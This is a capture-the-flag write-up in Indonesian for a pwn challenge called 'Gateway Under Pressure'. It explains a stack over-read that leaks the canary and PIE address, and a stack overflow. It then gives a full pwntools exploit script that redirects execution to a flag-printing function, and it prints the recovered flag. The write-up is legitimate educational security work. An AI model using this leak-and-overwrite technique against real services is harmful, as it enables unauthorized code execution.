

# Gateway Under Pressure — Pwn (220 pts)

## Deskripsi

Binary simulasi gateway yg nerima input dari user. Hint-nya udah jelas banget:
> The gateway trusts incoming data too much. Control flow is not always controlled by the application

Jadi kemungkinan besar ada overflow + ada fungsi yg gak kepake di flow normal tapi bisa dipanggil paksa.

## Analisa Binary

```
file gateway
ELF 64-bit LSB pie executable, x86-64, dynamically linked, not stripped
```

Checksec:
```
RELRO:    Partial
Canary:   Yes
NX:       Enabled
PIE:      Enabled
```

Karna gak stripped, bisa langsung liat nama2 fungsinya:
- `banner`
- `release_gateway`   <- ini yg mencurigakan, gak dipanggil di main
- `read_line`
- `read_exact`
- `do_register`
- `do_audit`
- `do_dispatch`
- `print_menu`
- `main`

Cek `release_gateway` pake objdump, isinya buka `flag.txt` trs print isinya ke stdout trs exit. Ini target akhir kita, tinggal cari cara biar function ini kepanggil.

Menu yg ada cuma 3: `[1] Register session`, `[2] Audit memory`, `[3] dispatch` (butuh udah register dulu).

## Vuln #1 — Info Leak di `do_audit`

Di `do_audit`, user disuruh masukin angka "panjang audit" (dicek cuma `0 < len <= 4096`), terus binary langsung:

```c
write(1, &local_buf, len);
```

`local_buf` cuma dialokasiin ±0x48 byte, tapi `len` bisa sampe 4096. Jadi ini classic stack over-read — bisa baca apapun yg ada di atas buffer itu, termasuk:
- stack canary
- saved rbp
- return address (balik ke `main`)

Dan karna ini pake `write()` langsung, bukan `printf("%s")`, jadi byte null di tengah2 gak masalah, semua raw byte keluar apa adanya.

## Vuln #2 — Overflow di `do_dispatch`

Di `do_dispatch`, abis pilih panjang data (dicek `0 < len <= 0x200`), binary manggil:

```c
read_exact(&buf, len);
```

Buffer-nya cuma ±0x48 byte sebelum nabrak canary, tapi `len` bisa sampe 512 byte. Overflow asli disini — bisa timpa canary, saved rbp, sampe return address.

Asal canary-nya bener pas ditimpa ulang, stack check bakal lolos dan return address yg udah kita ganti bakal kepake.

## Exploit Plan

1. **Leak** — panggil `do_audit`, minta panjang ~100 byte, parse hasilnya:
   - offset 0x48–0x4F → canary
   - offset 0x58–0x5F → return address (ke `main`)
2. Dari return address, hitung PIE base (`retaddr - 0x1807`, krn itu alamat instruksi abis `call do_audit`)
3. Hitung alamat `release_gateway` = `pie_base + offset release_gateway`
4. **Register** dulu (`[1]`) biar dispatch kebuka
5. **Overflow** di dispatch (`[3]`): isi 0x48 byte filler + canary asli + 8 byte filler (rbp) + alamat `release_gateway`
6. Return address ketimpa, canary cocok → function `release_gateway` kepanggil → flag ke-print

## Script

```python
from pwn import *

context.arch = 'amd64'

elf = ELF('./gateway')
RELEASE_GATEWAY = elf.symbols['release_gateway']
RET_AFTER_AUDIT_CALL = 0x1807

io = remote('s1.nfx.my.id', 43061)

# leak canary + retaddr
io.sendlineafter(b'> ', b'2')
io.sendlineafter(b': ', b'100')
leak = io.recvn(100)

canary  = leak[0x48:0x50]
retaddr = u64(leak[0x58:0x60])

pie_base = retaddr - RET_AFTER_AUDIT_CALL
target = pie_base + RELEASE_GATEWAY

# register
io.recvuntil(b'> ')
io.sendline(b'1')
io.sendlineafter(b': ', b'x')

# overflow dispatch
payload = b'A'*0x48 + canary + b'B'*8 + p64(target)

io.recvuntil(b'> ')
io.sendline(b'3')
io.sendlineafter(b': ', str(len(payload)).encode())
io.send(payload)

print(io.recvall(timeout=3).decode())
```

## Hasil

```
FLAG: NFX{Nyoss_Gte3wayy_Pr3ssureee0!}
```


